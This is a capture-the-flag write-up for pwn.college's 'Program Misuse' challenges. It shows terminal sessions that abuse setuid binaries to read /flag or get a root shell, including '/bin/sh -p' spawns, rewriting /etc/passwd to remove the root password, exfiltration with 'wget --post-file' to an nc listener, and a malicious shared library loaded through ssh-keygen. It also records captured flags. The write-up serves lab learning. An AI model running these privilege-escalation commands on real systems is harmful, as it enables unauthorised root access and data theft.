

# Program Misuse

## cat

```
hacker@program-misuse~cat:~$ ls -la $(which cat)
lrwxrwxrwx 1 root root 12 Oct 12 14:20 /run/challenge/bin/cat -> /usr/bin/cat
hacker@program-misuse~cat:~$ ls -la /usr/bin/cat
-rwsr-xr-x 1 root root 43416 Sep  5  2019 /usr/bin/cat
hacker@program-misuse~cat:~$ ls -la /flag
-r-------- 1 root root 58 Oct 12 14:20 /flag
hacker@program-misuse~cat:~$ cat /flag
pwn.college{gB57rQcztvbvTKRbxx0kMhsKLpA.dNDNxwyMyITOyEzW}
```

## more

```
hacker@program-misuse~more:~$ more /flag
pwn.college{kc17DooH_bFHtjcsmxdQOBhDCPn.dRDNxwyMyITOyEzW}
```

## less

```
hacker@program-misuse~more:~$ less /flag
pwn.college{kFC024L3VcsC4IGaUrg_yCwlorL.dVDNxwyMyITOyEzW}
```

## tail

```
hacker@program-misuse~tail:~$ tail /flag
pwn.college{o8JdPiPr0nOl-aL171rK50yPBnE.dZDNxwyMyITOyEzW}
```

## head

```
hacker@program-misuse~head:~$ head /flag
pwn.college{kvSi5DlrEnrcxnBeUdcQ0zJ1IRV.ddDNxwyMyITOyEzW}
```

## sort

```
hacker@program-misuse~sort:~$ sort /flag
pwn.college{UB6xkxTZqgp3ZjEw_m7DkUEA_up.dhDNxwyMyITOyEzW}
```

## vim

```
hacker@program-misuse~sort:~$ vim /flag
pwn.college{M0OcH8T9l9bkNTZqVv372MbSLta.dlDNxwyMyITOyEzW}
```

## emacs

```
hacker@program-misuse~emacs:~$ emacs /flag
pwn.college{sTEmwtBNAew8CpeLT6dTKPefpZc.dBTNxwyMyITOyEzW}
```

## nano

```
hacker@program-misuse~nano:~$ nano /flag
pwn.college{snuo1hOYMG5LuZO-V8wpAjxGDjO.dFTNxwyMyITOyEzW}
```

## rev

```
hacker@program-misuse~rev:~$ rev /flag | rev
pwn.college{gXiTXgM7bJxlZ_mB4hlGotzhqym.dJTNxwyMyITOyEzW}
```

## od

```
hacker@program-misuse~od:~$ od /flag -c
0000000   p   w   n   .   c   o   l   l   e   g   e   {   k   U   y   q
0000020   3   P   b   N   k   g   U   w   A   4   N   U   r   7   z   1
0000040   U   E   v   B   u   W   X   .   d   N   T   N   x   w   y   M
0000060   y   I   T   O   y   E   z   W   }  \n
0000072
```

Flag: `pwn.college{kUyq3PbNkgUwA4NUr7z1UEvBuWX.dNTNxwyMyITOyEzW}`

## hd (hexdump)

```
hacker@program-misuse~hd:~$ ls -la $(which hd)
lrwxrwxrwx 1 root root 11 Oct 12 14:36 /run/challenge/bin/hd -> /usr/bin/hd
hacker@program-misuse~hd:~$ ls -la /usr/bin/hd
lrwxrwxrwx 1 root root 7 Mar 30  2020 /usr/bin/hd -> hexdump
hacker@program-misuse~hd:~$ hd /flag
00000000  70 77 6e 2e 63 6f 6c 6c  65 67 65 7b 55 78 48 35  |pwn.college{UxH5|
00000010  50 4e 45 43 50 73 75 4a  6e 43 63 52 52 54 46 53  |PNECPsuJnCcRRTFS|
00000020  79 4a 45 59 30 6f 64 2e  64 52 54 4e 78 77 79 4d  |yJEY0od.dRTNxwyM|
00000030  79 49 54 4f 79 45 7a 57  7d 0a                    |yITOyEzW}.|
0000003a
```

Flag: `pwn.college{UxH5PNECPsuJnCcRRTFSyJEY0od.dRTNxwyMyITOyEzW}`

## xxd

```
hacker@program-misuse~xxd:~$ xxd /flag
00000000: 7077 6e2e 636f 6c6c 6567 657b 5956 6343  pwn.college{YVcC
00000010: 4451 5879 626d 526c 4454 746d 3874 5374  DQXybmRlDTtm8tSt
00000020: 3074 7763 4661 432e 6456 544e 7877 794d  0twcFaC.dVTNxwyM
00000030: 7949 544f 7945 7a57 7d0a                 yITOyEzW}.
```

Flag: `pwn.college{YVcCDQXybmRlDTtm8tSt0twcFaC.dVTNxwyMyITOyEzW}`

## base32

```
hacker@program-misuse~base32:~$ base32 /flag
OB3W4LTDN5WGYZLHMV5USNTOIZGGIMTTK5KVA32XMZLWSSSGG5SUKQ2MJE4VKMZOMRNFITTYO54U
26KJKRHXSRL2K56QU===
hacker@program-misuse~base32:~$ base32 /flag | base32 -d
pwn.college{I6nFLd2sWUPoWfWiJF7eECLI9U3.dZTNxwyMyITOyEzW}
```

## base64

```
hacker@program-misuse~base64:~$ base64 /flag
cHduLmNvbGxlZ2V7VWhjT2VDR0VoNzdkTVotQUhjWHRCVkxiMllwLmRkVE54d3lNeUlUT3lFeld9
Cg==
hacker@program-misuse~base64:~$ base64 /flag | base64 -d
pwn.college{UhcOeCGEh77dMZ-AHcXtBVLb2Yp.ddTNxwyMyITOyEzW}
```

## split

```
hacker@program-misuse~split:~$ ls -la *aa*
ls: cannot access '*aa*': No such file or directory
hacker@program-misuse~split:~$ split /flag
hacker@program-misuse~split:~$ ls -la *aa*
-rw-r--r-- 1 root hacker 58 Oct 12 14:44 xaa
hacker@program-misuse~split:~$ cat xaa
pwn.college{wjwXTi6Fb9aqR-A8zDGsNnGN5dg.dhTNxwyMyITOyEzW}
```

## gzip

```
hacker@program-misuse~gzip:~$ gzip -k /flag
hacker@program-misuse~gzip:~$ ls -la /flag*
-r-------- 1 root root 58 Oct 12 14:45 /flag
-r-------- 1 root root 83 Oct 12 14:45 /flag.gz
hacker@program-misuse~gzip:~$ gzip -c /flag.gz -d
pwn.college{g9Bwi_b7meL1U14KDoIr-PM6We9.dlTNxwyMyITOyEzW}
```

## bzip2

```
hacker@program-misuse~bzip2:~$ bzip2 /flag -k -c | bzip2 -d -c
pwn.college{Mg8ZlqbVWDRNwQ3vftNS5lAJLaf.dBjNxwyMyITOyEzW}
```

## zip

```
hacker@program-misuse~zip:~$ zip flag.zip /flag
  adding: flag (stored 0%)
hacker@program-misuse~zip:~$ unzip flag.zip
Archive:  flag.zip
replace flag? [y]es, [n]o, [A]ll, [N]one, [r]ename: r
new name: theflag
 extracting: theflag
hacker@program-misuse~zip:~$ cat theflag
pwn.college{MulexHwPOpFtG-q067tEiwa8dPU.dFjNxwyMyITOyEzW}
```

## tar

```
hacker@program-misuse~tar:~$ cd /
hacker@program-misuse~tar:/$ tar czf ~/flag.tar flag
hacker@program-misuse~tar:/$ cd ~
hacker@program-misuse~tar:~$ ls -la flag.tar
-rw-r--r-- 1 root hacker 175 Oct 12 14:59 flag.tar
hacker@program-misuse~tar:~$ tar xzvf flag.tar -O
flag
pwn.college{Yp7aAeTD1oawF31sNBpaWXqEAoM.dJjNxwyMyITOyEzW}
```

## ar

```
hacker@program-misuse~ar:~$ ar rs flag.a /flag
ar: creating flag.a
hacker@program-misuse~ar:~$ ls -la flag.a
-rw-r--r-- 1 root hacker 126 Oct 12 15:01 flag.a
hacker@program-misuse~ar:~$ ar x flag.a
hacker@program-misuse~ar:~$ cat flag
pwn.college{ERvcN4xc0fWV6j2YZTKgOgOmADN.dNjNxwyMyITOyEzW}
```

## cpio

```
hacker@program-misuse~cpio:~$ echo /flag | cpio -o > flag.cpio
1 block
hacker@program-misuse~cpio:~$ ls -la flag.cpio
-rw-r--r-- 1 hacker hacker 512 Oct 12 15:14 flag.cpio
hacker@program-misuse~cpio:~$ file flag.cpio
flag.cpio: cpio archive; device 20, inode 8346, mode 100400, uid 0, gid 0, modified Sun Oct 12 15:13:03 2025, 58 bytes "/flag"
hacker@program-misuse~cpio:~$ cpio < flag.cpio
cpio: You must specify one of -oipt options.
Try 'cpio --help' or 'cpio --usage' for more information.
hacker@program-misuse~cpio:~$ cpio --extract < flag.cpio
cpio: /flag not created: newer or same age version exists
1 block
hacker@program-misuse~cpio:~$ cpio --extract --to-stdout < flag.cpio
pwn.college{4F3N5rPdD5eRQenbwAP6LkO9vuL.dRjNxwyMyITOyEzW}
1 block
```

## genisoimage

By reading GTFOBins:

```
hacker@program-misuse~genisoimage:~$ genisoimage -sort /flag
genisoimage: Incorrect sort file format
        pwn.college{gb3zD64_Eu_f7JOvCd4UAJH9fhH.dVjNxwyMyITOyEzW}
```

## env

Now I am going to consult GTFOBins for everything, why not?

```
hacker@program-misuse~env:~$ env /bin/sh -p
# whoami
root
# cat /flag
pwn.college{IVT8Os6jNxw6r3rza-writJnZIj.dZjNxwyMyITOyEzW}
#
```

## find

```
hacker@program-misuse~find:~$ find . -exec /bin/sh -p \; -quit
# whoami
root
# cat /flag
pwn.college{4gcQRwT5GybraO4mcAAQyuahMex.ddjNxwyMyITOyEzW}
#
```

## make

```
hacker@program-misuse~make:~$ make -s --eval=$'x:\n\t-'"$(echo /bin/sh -p)"
# whoami
root
# cat /flag
pwn.college{kYURnJa4pRmoKpY-HSpL-m4scfv.dhjNxwyMyITOyEzW}
#
```

## nice

```
hacker@program-misuse~nice:~$ nice /bin/sh -p
# cat /flag
pwn.college{43Q5uD3ifl6hz5TciX2IXWasGca.dljNxwyMyITOyEzW}
#
```

## timeout

```
hacker@program-misuse~timeout:~$ timeout 7d /bin/sh -p
# whoami
root
# cat /flag
pwn.college{IHNZ7EUahaIkAkvTPiL0MDB_3uK.dBzNxwyMyITOyEzW}
#
```

## stdbuf

```
hacker@program-misuse~stdbuf:~$ stdbuf -i0 /bin/sh -p
# cat /flag
pwn.college{YTP2dW85lw5L8vd_gtCwsWN_0XU.dFzNxwyMyITOyEzW}
#
```

## setarch

```
hacker@program-misuse~setarch:~$ arch
x86_64
hacker@program-misuse~setarch:~$ setarch $(arch) /bin/sh -p
# cat /flag
pwn.college{wHs0nKmUojSRgDBlIl-YjxUfTQM.dJzNxwyMyITOyEzW}
#
```

## watch

```
hacker@program-misuse~watch:~$ watch -x sh -p -c 'reset; exec sh -p 1>&0 2>&0'
sh-5.2# whoami
root
sh-5.2# cat /flag
pwn.college{Q2qvs1NrHWoTYSIsirsdwM0U1w0.dNzNxwyMyITOyEzW}
sh-5.2#
```

## socat

```
hacker@program-misuse~socat:~$ socat stdin exec:"/bin/sh -p"
whoami
root
cat /flag
pwn.college{si47QTRv51iNP37W7_Y9wqWL1Tn.dRzNxwyMyITOyEzW}
```

## whiptail

```
hacker@program-misuse~whiptail:~$ whiptail --textbox --scrolltext "/flag" 20 70
```



Flag: `pwn.college{cyFpYawTU6Lxacn6KKDrwkZ8nyC.dVzNxwyMyITOyEzW}`

## awk

```
hacker@program-misuse~awk:~$ awk '//' "/flag"
pwn.college{EAy3Bx61NGDOoaF4zZ9chmV7HVR.dZzNxwyMyITOyEzW}
```

## sed

```
hacker@program-misuse~sed:~$ sed '' /flag
pwn.college{gckLDArQdIiXluA90WP6fCcH2V5.ddzNxwyMyITOyEzW}
```

## ed

```
hacker@program-misuse~ed:~$ ed /flag
58
,p
pwn.college{EHDEayCpLGhZPOlzQWz8Yuy5IW7.dhzNxwyMyITOyEzW}
q
```

## chown

```
hacker@program-misuse~chown:~$ chown hacker:hacker /flag
hacker@program-misuse~chown:~$ cat /flag
pwn.college{cTjnxenGzUTtFrtCOoe8K8ceYd8.dlzNxwyMyITOyEzW}
```

## chmod

```
hacker@program-misuse~chmod:~$ chmod 777 /flag
hacker@program-misuse~chmod:~$ cat /flag
pwn.college{s4C1cZxWo9-JWTAUBuvn8H8VZI1.dBDOxwyMyITOyEzW}
```

## cp

```
hacker@program-misuse~cp:~$ cp /flag /dev/stdout
pwn.college{QtSP9WMFQLSZEd1IiFXdxo-WcEg.dFDOxwyMyITOyEzW}
```

Another solution, which gets priv esc:
```
hacker@program-misuse~cp:~$ cp --attributes-only --preserve=all /bin/cp /bin/sh
hacker@program-misuse~cp:~$ /bin/sh -p
# whoami
root
# cat /flag
pwn.college{QtSP9WMFQLSZEd1IiFXdxo-WcEg.dFDOxwyMyITOyEzW}
#
```

## mv

We edit `/etc/passwd` to remove the root password (just delete the single `x` in `root:x:0:0` to become `root::0:0`):

```
hacker@program-misuse~mv:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
root:x:0:0:root:/root:/run/dojo/bin/bash
hacker:x:1000:1000:hacker:/home/hacker:/run/dojo/bin/bash
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
hacker@program-misuse~mv:~$
hacker@program-misuse~mv:~$ nvim passwd_root_nopass
hacker@program-misuse~mv:~$ mv passwd_root_nopass /etc/passwd
hacker@program-misuse~mv:~$ cat /etc/passwd
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
root:x:0:0:root:/root:/run/dojo/bin/bash
hacker:x:1000:1000:hacker:/home/hacker:/run/dojo/bin/bash
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
hacker@program-misuse~mv:~$ su
root@program-misuse~mv:/home/hacker# cat /flag
pwn.college{QW-Sh1oCtnlCmIlcfGlOc87ojUT.dJDOxwyMyITOyEzW}
root@program-misuse~mv:/home/hacker#
```

## perl

```
hacker@program-misuse~perl:~$ perl -ne print /flag
pwn.college{o35-Y3IYXfw-0nvZaFzofNyceKt.dNDOxwyMyITOyEzW}
```

Another way with file write:

```
hacker@program-misuse~perl:~$ nvim file_write.pl
hacker@program-misuse~perl:~$ perl file_write.pl
Writing to file successfully!
hacker@program-misuse~perl:~$ su
root@program-misuse~perl:/home/hacker# cat /flag
pwn.college{o35-Y3IYXfw-0nvZaFzofNyceKt.dNDOxwyMyITOyEzW}
```

The perl script `file_write.pl` is this one:
```perl
#!/usr/bin/perl
use warnings;
use strict;

my $str = <<END;
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
root:x:0:0:root:/root:/run/dojo/bin/bash
hacker:x:1000:1000:hacker:/home/hacker:/run/dojo/bin/bash
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
END

my $filename = '/etc/passwd';

open(FH, '>', $filename) or die $!;

print FH $str;

close(FH);

print "Writing to file successfully!\n";
```

## python

```
hacker@program-misuse~python:~$ python
Python 2.7.18 (default, Dec  9 2024, 19:35:20)
[GCC 9.4.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> with open("/flag", "r") as f:
...     content = f.read()
...     print(content)
...
pwn.college{cQ1ui3WjqNQBviQSLEHh5ghUOWL.dRDOxwyMyITOyEzW}
```

## ruby

```
hacker@program-misuse~ruby:~$ ruby --version
ruby 2.7.0p0 (2019-12-25 revision 647ee6f091) [x86_64-linux-gnu]
hacker@program-misuse~ruby:~$ ruby
Traceback (most recent call last):
ruby: no program input from stdin allowed while running setuid (SecurityError)
hacker@program-misuse~ruby:~$ ruby -e 'c = File.read("/flag"); puts c'
Traceback (most recent call last):
ruby: no -e allowed while running setuid (SecurityError)
hacker@program-misuse~ruby:~$ nvim ruby_read.rb
hacker@program-misuse~ruby:~$ cat ruby_read.rb
#!/bin/ruby

f = File.read("/flag")
puts f
hacker@program-misuse~ruby:~$ ruby ruby_read.rb
pwn.college{8BTcqR-HW_su4TN3FdLmeBpaEb_.dVDOxwyMyITOyEzW}
```

This works too:
```
hacker@program-misuse~ruby:~$ ruby <(echo 'f=File.read("/flag"); puts f')
pwn.college{8BTcqR-HW_su4TN3FdLmeBpaEb_.dVDOxwyMyITOyEzW}
```


## bash

```
hacker@program-misuse~bash:~$ bash -p
bash-5.0# cat /flag
pwn.college{I-e4mqNkpNAQ_9C66QolDSSMP87.dZDOxwyMyITOyEzW}
```

## date

```
hacker@program-misuse~date:~$ date -f /flag
date: invalid date ‘pwn.college{4oOL-MyVCpnlVyImu7-RuQ3VXiz.ddDOxwyMyITOyEzW}’
```

## dmesg

```
hacker@program-misuse~dmesg:~$ dmesg -rF /flag
pwn.college{cdQx3ySR-CGZuefgh7zPjSj0ywH.dhDOxwyMyITOyEzW}
```

## wc

```
hacker@program-misuse~wc:~$ wc --files0-from /flag
wc: 'pwn.college{sW28HcTqVsiNd_7waN5l4bfnjx_.dlDOxwyMyITOyEzW}'$'\n': No such file or directory
```

## gcc

```
hacker@program-misuse~gcc:~$ gcc -x c -E /flag
# 1 "/flag"
# 1 "<built-in>"
# 1 "<command-line>"
# 1 "/flag"
pwn.college{4cpTWADHLe9e3Z7sEwGgKbWhiD4.dBTOxwyMyITOyEzW}
```

## as

```
hacker@program-misuse~as:~$ as @"/flag"
Assembler messages:
Error: can't open pwn.college{QEKPPzPdYaCNdvrxo3T-RMKE2mG.dFTOxwyMyITOyEzW} for reading: No such file or directory
```

## wget

First of all, create a `nc` listener:

```
hacker@program-misuse~wget:~$ nc -lvnp 8000
Listening on 0.0.0.0 8000
Connection received on 127.0.0.1 55870
POST / HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: localhost:8000
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

pwn.college{I9e_8jWpiPp5GRilDnDMNFxxpCb.dJTOxwyMyITOyEzW}
```

Then use `wget --post-file`:

```
hacker@program-misuse~wget:~$ wget --post-file=/flag http://localhost:8000
--2025-10-16 21:47:37--  http://localhost:8000/
Resolving localhost (localhost)... ::1, 127.0.0.1
Connecting to localhost (localhost)|::1|:8000... failed: Connection refused.
Connecting to localhost (localhost)|127.0.0.1|:8000... connected.
HTTP request sent, awaiting response...
```

## ssh-keygen

```
hacker@program-misuse~ssh-keygen:~$ nvim malicious.c
hacker@program-misuse~ssh-keygen:~$ cat malicious.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void exploit() {
    // Spawn shell with potential root privileges
    setuid(0);
    setgid(0);
    system("/bin/sh");
}

// Required PKCS11 function
void C_GetFunctionList() {
    exploit();
}
hacker@program-misuse~ssh-keygen:~$ gcc -shared -fPIC -o malicious.so malicious.c
hacker@program-misuse~ssh-keygen:~$ ssh-keygen -D ./malicious.so
# whoami
root
# cat /flag
pwn.college{EW6nzabquKGQdbQBnCIA6LXums7.dNTOxwyMyITOyEzW}
#
```
